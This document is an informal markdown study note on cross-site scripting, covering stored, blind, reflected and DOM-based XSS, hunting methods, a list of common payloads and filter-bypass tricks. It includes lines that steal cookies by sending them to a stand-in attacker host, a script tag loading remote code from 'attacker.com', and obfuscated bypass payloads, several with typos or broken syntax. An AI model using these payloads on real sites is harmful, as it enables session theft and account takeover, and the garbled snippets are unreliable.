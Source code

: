 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.
          * The data at the end is encoded in base64 to bypass the XSS filters.
  * Works on <<span>img> tag.
      * h<span>ttps://example.com/upload_profile_pic?url=IMAGE_URL
      * IMAGE URL will be inserted in a <img> tag when the image is rendered.
  * **Take note of which characters are being rendered directly and which ones are escaped.**
###  Common payloads

* <script> alert(1) </script>
* <iframe src = javascript: alert(1) >
* <<span>body onload=alert(1)>
* "><<span>img src=x onerror=prompt(1);>
* <script> alert(1)<!-
    * <!- is an HTML comment, prevents syntax errors.
* <a onmouseover" alert(1)"> test </a>
* <script src=//attacker.com/test.js>

### Other test methods

* Test strings: 
    * <span>> , ' , <span>< , <span>" ,  // , : , = , ; , ! , --
    * Fuzzing

### Bypassing filters

* Mix different encodings and capitilizations to confuse filters.
* HTML allows for syntax errors in capitilzations
* If special characters are filtered, you cant write strings into a payload directly.
    * Use JavaScript functions like fromCharCopde() that translates numeric codes to ASCII chars.
    * <scrIPT> location=String.fromCharCode(104,116,...)+document.cookie;</srcIPT>
    * Use h<span>ttp://js.do/
* Sometimes applications remove tags once or a couple times.
    * <scrip<script>t> ... </scrip</script>t>
    * The inner script tags will be removed, but the outer ones will be brought together and execute.
    
